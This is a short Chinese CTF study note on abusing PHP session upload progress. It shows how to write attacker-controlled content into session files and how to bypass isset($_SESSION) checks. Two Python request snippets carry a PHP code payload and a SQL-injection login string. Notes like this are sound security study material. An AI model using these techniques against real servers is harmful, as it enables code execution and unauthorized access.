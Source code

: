 tags:: CTFWEB/PHP/文件上传, CTFWEB/RCE

- # 利用session向文件中写入文件
	- php session 的 ID 是可以在 cookie 中自定义的
	- session 位置一般是`/tmp/`或者`/var/lib/php/sessions`
	- session 文件名为 sess_xxxxx, xxxxx 就是自定义的 session ID
	- 而且，在上传文件时，文件的上传状态会保存在 session 文件中。
	- 而文件的上传状态也是可以控制的
	- 所以这样就可以上传恶意文件
		- ```python
		  requests.post(
		  "http://124.71.162.7:10882/",
		  data={
		      "PHP_SESSION_UPLOAD_PROGRESS": "<?php echo 123123;?>"
		  },
		  files={"file":('a.txt', io.BytesIO(b'a' * 1024 * 50))},
		  cookies={"PHPSESSID": "test"}
		  )
		  ```
	- 文件名在上面
- # 绕过isset($_SESSION)
	- 利用`isset($_SESSION)`来阻止访问template文件是不安全的。
	- 如果`php.ini`中开启了`session.upload_progress.enabled`，那么用户可以通过`PHP_SESSION_UPLOAD_PROGRESS`让PHP自动开启session
		- ```python
		  r = base_post(f"{url}/templates/login.php", params = {
		      "p": "login",
		      "username": 'bbb"||1#',
		      "password": "b"
		  }, data = {
		      "PHP_SESSION_UPLOAD_PROGRESS": "123456789"
		  }, files = {
		      "file": ("a", "a")
		  })
		  print(r.text)
		  ```
	- 示例：[[CTFWEB/WP/BUUCTF/PwnThyBytes 2019 Baby_SQL]]
- # 伪造session
	- [[CTFWEB/WP/BUUCTF/HFCTF2020 BabyUpload]]
